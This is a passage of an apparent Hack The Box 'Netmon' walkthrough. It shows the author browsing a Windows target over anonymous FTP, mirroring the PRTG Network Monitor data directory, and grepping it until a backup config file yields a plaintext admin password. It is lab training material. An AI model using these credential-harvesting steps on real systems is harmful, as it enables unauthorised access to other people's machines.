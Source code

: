 ![](./images/netmon-prtg-monitor-version.png)

Since the exploit required credentials, I tried the default username and password for `PRTG Network Monitor` `prtgadmin:prtgadmin` with no success. At this point, I figured I needed to go search for the database file where the application stores its credentials.

After some researching, I figured out that the credentials should be stored in the `C:\Users\All Users\Paessler\PRTG Network Monitor\PRTG Configuration.dat` files. Note that the `C:\Users\All Users` directory wasn't listed previously because it's a hidden directory on Windows.

```none
lftp 10.10.10.152:/Users> ls
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
lftp 10.10.10.152:/Users> ls -a
02-25-19  11:44PM       <DIR>          Administrator
07-16-16  09:28AM       <DIR>          All Users
02-03-19  08:05AM       <DIR>          Default
07-16-16  09:28AM       <DIR>          Default User
07-16-16  09:16AM                  174 desktop.ini
02-03-19  12:35AM       <DIR>          Public
```

I then mirrored the `C:\Users\All Users\Paessler\PRTG Network Monitor` directory to my Kali machine:

```none
lftp 10.10.10.152:/Users/All Users/Paessler> mirror "PRTG Network Monitor"
```

Then, I recursively searched for some passwords in all directories. I got too many results, so I figured I would try searching for the `prtgadmin` keyword which might bring me closer to finding some credentials:

```none
kali@kali:~/htb/boxes/netmon/ftp/PRTG Network Monitor$ grep -R prtgadmin *
Logs (Web Server)/prtg20200908.log:#3564031 2020-09-08 19:59:24 10.10.14.24 "anonymous-prtgadmin-login_failed" 10.10.10.152 80 POST /public/checklogin.htm username=prtgadmin&password=*** 200 "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
Logs (Web Server)/prtg20200908.log:#336079 2020-09-08 20:05:36 10.10.14.24 "anonymous-prtgadmin-login_failed" 10.10.10.152 80 POST /public/checklogin.htm username=prtgadmin&password=*** 200 "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
PRTG Configuration.dat:                  prtgadmin
PRTG Configuration.old:                  prtgadmin
PRTG Configuration.old.bak:           <!-- User: prtgadmin -->
PRTG Configuration.old.bak:                  prtgadmin
```

The `PRTG Configuration.old.bak` file looked incredibly suspicious since I noticed the XML comment as well as the `.bak` extension which is normally something that humans write. Looking closer at `PRTG Configuration.old.bak`, I found a plaintext password the system administrator must have left behind as a reminder since normally, the passwords in the `PRTG Configuration.dat` file are hashed.

```none
kali@kali:~/htb/boxes/netmon/ftp/PRTG Network Monitor$ grep -C 2 '<!-- User: prtgadmin -->' 'PRTG Configuration.old.bak'
            </dbcredentials>
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```

